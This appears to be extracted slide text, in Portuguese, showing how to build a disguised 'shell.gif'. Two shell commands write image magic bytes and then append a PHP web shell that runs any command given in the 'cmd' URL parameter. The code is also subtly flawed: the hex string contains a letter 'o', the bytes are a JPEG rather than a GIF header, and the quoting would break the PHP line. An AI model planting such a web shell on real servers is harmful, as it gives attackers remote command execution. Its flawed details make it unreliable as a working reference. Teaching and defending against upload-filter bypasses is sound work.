

# Um exemplo de shell no formato .gif
$ echo 'FFD8FFEo' | xxd -r -p > shell.gif
$ echo '<?php passthru($_GET['cmd']); ?>' >> shell.gif